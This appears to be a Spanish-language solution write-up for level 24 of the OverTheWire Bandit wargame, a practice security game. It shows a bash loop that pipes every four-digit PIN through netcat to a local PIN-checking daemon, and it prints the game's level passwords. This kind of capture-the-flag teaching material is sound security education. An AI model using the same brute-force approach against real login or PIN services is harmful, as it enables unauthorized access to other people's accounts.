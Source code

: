 ## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel 
bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Solución  
`bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong`
`I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.`
`Correct!`
`The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`


## Notas Adicionales 

grep - v mensaje : filtra todas las lineas que no contenga el mensaje

### Referencias
